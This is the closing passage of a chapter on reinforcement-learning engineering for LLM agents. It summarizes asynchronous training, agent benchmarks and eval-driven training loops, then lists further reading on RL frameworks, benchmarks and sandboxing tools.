6. **Synchronous vs. asynchronous** — synchronous is simple but wastes GPU utilization; asynchronous (AReaL/AgentRL/slime/ROLL/LlamaRL) can deliver a 2.77x speedup at the cost of off-policy bias
7. **The benchmark ecosystem** — SWE-bench, τ-bench, WebArena, Vending-Bench, CyberGym, and others cover different capability dimensions; combine them to avoid overfitting
8. **The train-eval loop** — eval-driven training, incremental evaluation, contamination detection, and Pareto-based checkpoint selection are standard practice in industrial-grade RL engineering

Next up is [Chapter 24: VLM RL](../chapter26_vlm/intro), which looks at how reward design and training scale once observations shift from text to images or video.

## Further Reading

- Pash 2025, "Evals = RL Environments" (blog post no longer available)
- [Anthropic, Nov. 2025, "Effective Harnesses"](https://www.anthropic.com/engineering/effective-harnesses-for-long-running-agents)
- [Mechanize: RL Environments for All Digital Work](https://mechanize.dev/)
- [AReaL: Asynchronous RL for LLMs (arXiv:2505.24298)](https://arxiv.org/abs/2505.24298)
- [AgentRL: A Multi-Turn, Multi-Task Agentic RL Framework (arXiv:2510.04206)](https://arxiv.org/abs/2510.04206)
- [CyberGym: A CTF Training Environment (arXiv:2506.02548)](https://arxiv.org/abs/2506.02548)
- [Vending-Bench: A Long-Horizon Benchmark (arXiv:2502.15840)](https://arxiv.org/abs/2502.15840)
- [τ-bench: Salesforce's Agent Benchmark (arXiv:2406.12045)](https://arxiv.org/abs/2406.12045)
- [SWE-Gym: The Training-Set Version of SWE-bench (arXiv:2412.21139)](https://arxiv.org/abs/2412.21139)
- [BFCL: Berkeley Function Calling Leaderboard (PMLR 2025)](https://proceedings.mlr.press/v267/patil25a.html)
- [WebArena (arXiv:2307.13854)](https://arxiv.org/abs/2307.13854)
- [BrowseComp (OpenAI 2025)](https://openai.com/index/browsecomp/)
- [Firecracker microVM](https://firecracker-microvm.github.io/)
- [gVisor Sandbox](https://gvisor.dev/)
